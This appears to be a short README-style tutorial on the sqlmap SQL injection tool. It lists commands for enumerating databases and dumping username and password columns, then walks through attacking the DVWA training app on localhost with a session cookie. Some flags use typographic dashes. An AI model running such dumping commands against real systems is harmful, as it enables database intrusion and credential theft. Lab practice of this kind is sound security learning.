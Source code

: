 
## sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1  

sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3  

sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie  

sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump  

//dump the data of the column "username" and "password"  


see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   

```
it doesn't work and the dvwa jump to the homepage, so we need to add the coockie  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"  
cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" 
```
sqlmap shows that the url is injectable and after several tests we use the command below to get the username and password.  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   
--cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7"--batch -D dvwa -T users -C user,password --dump
```
